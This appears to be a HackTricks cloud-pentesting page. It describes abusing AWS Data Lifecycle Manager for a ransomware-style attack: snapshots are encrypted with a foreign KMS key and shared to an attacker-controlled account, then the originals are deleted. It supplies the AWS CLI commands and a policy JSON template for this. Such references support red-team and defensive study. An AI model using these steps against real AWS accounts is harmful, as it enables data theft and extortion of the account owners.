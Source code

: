 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

A ransomware attack can be executed by encrypting as many EBS volumes as possible and then erasing the current EC2 instances, EBS volumes, and snapshots. To automate this malicious activity, one can employ Amazon DLM, encrypting the snapshots with a KMS key from another AWS account and transferring the encrypted snapshots to a different account. Alternatively, they might transfer snapshots without encryption to an account they manage and then encrypt them there. Although it's not straightforward to encrypt existing EBS volumes or snapshots directly, it's possible to do so by creating a new volume or snapshot.

Firstly, one will use a command to gather information on volumes, such as instance ID, volume ID, encryption status, attachment status, and volume type.

`aws ec2 describe-volumes`

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.

```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```

A template for the policy document can be seen here:

```bash
{
  "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
  "ResourceTypes": [
    "VOLUME"
  ],
  "TargetTags": [
    {
      "Key": "ExampleKey",
      "Value": "ExampleValue"
    }
  ],
  "Schedules": [
    {
      "Name": "DailySnapshots",
      "CopyTags": true,
      "TagsToAdd": [
        {
          "Key": "SnapshotCreator",
          "Value": "DLM"
        }
      ],
      "VariableTags": [
        {
          "Key": "CostCenter",
          "Value": "Finance"
        }
      ],
      "CreateRule": {
        "Interval": 24,
        "IntervalUnit": "HOURS",
        "Times": [
          "03:00"
        ]
      },
      "RetainRule": {
        "Count": 14
      },
      "FastRestoreRule": {
        "Count": 2,
        "Interval": 12,
        "IntervalUnit": "HOURS"
      },
      "CrossRegionCopyRules": [
        {
          "TargetRegion": "us-west-2",
          "Encrypted": true,
          "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
          "CopyTags": true,
          "RetainRule": {
            "Interval": 1,
            "IntervalUnit": "DAYS"
          }
        }
      ],
      "ShareRules": [
        {
          "TargetAccounts": [
            "123456789012"
          ],
          "UnshareInterval": 30,
          "UnshareIntervalUnit": "DAYS"
        }
      ]
    }
  ],
  "Parameters": {
    "ExcludeBootVolume": false
  }
}
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
